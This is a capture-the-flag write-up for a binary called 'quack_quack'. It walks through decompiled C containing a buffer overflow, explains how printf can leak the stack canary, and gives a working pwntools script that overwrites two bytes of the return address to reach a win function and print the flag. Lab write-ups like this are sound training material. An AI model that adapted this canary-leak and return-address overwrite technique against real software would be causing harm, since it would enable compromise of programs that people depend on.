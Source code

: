 * Description

On the quest to reclaim the Dragon's Heart, the wicked Lord Malakar has cursed the villagers,
turning them into ducks! Join Sir Alaric in finding a way to defeat them without causing harm, Quack
Quack, it's time to face the Duck!

* Solution

First, let's running the program:
[[file:2025-04-18_15-21.png]]

There are need some input, with random string the program give us messages then exit.

Let's analysis its logic in disassembler:
#+begin_src c
unsigned __int64 duckling()
{
  char *v1; // [rsp+8h] [rbp-88h]
  _QWORD buf[4]; // [rsp+10h] [rbp-80h] BYREF
  _QWORD buf_1[11]; // [rsp+30h] [rbp-60h] BYREF
  unsigned __int64 v4; // [rsp+88h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  memset(buf, 0, sizeof(buf));
  memset(buf_1, 0, 0x50);
  printf("Quack the Duck!\n\n> ");
  fflush(_bss_start);
  read(0, buf, 0x66u);
  v1 = strstr((const char *)buf, "Quack Quack ");
  if ( !v1 )
  {
    error("Where are your Quack Manners?!\n");
    exit(1312);
  }
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
  read(0, buf_1, 0x6Au);
  puts("Did you really expect to win a fight against a Duck?!\n");
  return v4 - __readfsqword(0x28u);
}
#+end_src

~main~ call the ~duckling~ then exit, in this ~duckling~ function, it's seem that the first input which
program require *must* include string "Quack Quack ". *Then it print the rest of input as string (%s)*.
and which interesting is the next ~read~ call exist a =buffer overflow=. Cause that buf's position at
=[rbp - 0x60]=, but ~read~ size is *0x6a*. So except the base rbp, we can overwrite the last 2 byte of
return address.
[[file:2025-04-18-0735.svg]]

BTW, we notice that prologue of function initialize the ~v4~, which is ~stack canary~, So, we need to
leak that value in printf!

Lastly, the program has provide the *"win"* function ~duck_attack:~
[[file:2025-04-18_15-45.png]]

Until now, all we need is satisfied:
1. leverage ~printf~ to leak =canary=.
2. construct the payload to fill that =canary= and overwrite the return address last 2 byte to ~duck_attack~
   
#+begin_src python :results output
#!/usr/bin/env python3

from pwn import *

io = process('./quack_quack')

canary_offset_from_buf = 0x78
print_offset = 0x20
# plus 1, cause last byte of canary always equal to 0, cause %s leak fail
canary_payload = b'A' * (canary_offset_from_buf - print_offset + 1)
canary_payload += b'Quack Quack '

_ = io.sendlineafter(b'> ', canary_payload)
_ = io.recvuntil(b'Quack Quack ')
canary = u64(io.recv(7).rjust(8, b'\x00'))
print(f'leak canary: {hex(canary)}')

win_last2bytes = b'\x7f\x13'
win_payload = b'A' * 0x58 + p64(canary) + b'B' * 8 + win_last2bytes
_ = io.sendlineafter(b'> ', win_payload)

_ = io.recvuntil(b'against a Duck?!')

flag = io.recvall().strip(b'\n')

print(flag.decode())
#+end_src
